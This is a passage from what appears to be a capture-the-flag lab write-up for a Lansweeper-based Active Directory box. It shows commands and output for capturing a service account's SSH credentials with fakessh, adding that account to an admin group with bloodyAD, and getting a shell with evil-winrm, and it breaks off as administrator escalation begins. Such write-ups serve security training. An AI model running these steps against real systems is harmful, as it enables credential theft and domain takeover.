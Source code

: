 I also ensured my machine was marked as a Linux asset in the system:

![[Pasted image 20250925010831.png]]

Using [fakessh](https://github.com/fffaraz/fakessh) tool, I captured the username and password of the scanning service account when it attempted to connect to my machine:


```bash
fakessh ./
```

```bash

 cat /home/kali/fakessh-logs/fakessh-2025-09-24-19-44-25-000.log 
```

```output

2025/09/24 19:47:10.090333 10.10.125.29:51185
2025/09/24 19:47:16.229594 10.10.125.29:51198
2025/09/24 19:47:16.442145 10.10.125.29:51199
2025/09/24 19:47:16.614059 10.10.125.29:51199 SSH-2.0-RebexSSH_5.0.8372.0 svc_inventory_lnx 0|5m-U6?/uAX
                                     
```

## Lateral Movement

Now with the `svc_inventory_lnx` credentials, I discovered this account had “GenericAll” privileges over the “LANSWEEPER ADMINS” group. I added the service account to this privileged group:

```bash

bloodyAD --host sweep.vl -u 'svc_inventory_lnx' -p '0|5m-U6?/uAX' -d 'sweep.vl' add groupMember 'LANSWEEPER ADMINS' svc_inventory_lnx

```

With elevated privileges, I connected to the target using WinRM:

```bash
evil-winrm -i sweep.vl -u svc_inventory_lnx -p '0|5m-U6?/uAX'
```


user flag

```output
*Evil-WinRM* PS C:\> cat user.txt
VL{d0f2522312ba549fd2daca09e293bfd1}
```

## Privilege Escalation - Administrator

For the final privilege escalation, I logged into the Lansweeper application with the `svc_inventory_lnx` account, which now had administrative access.  
I created another mapping credential targeting a Windows machine:
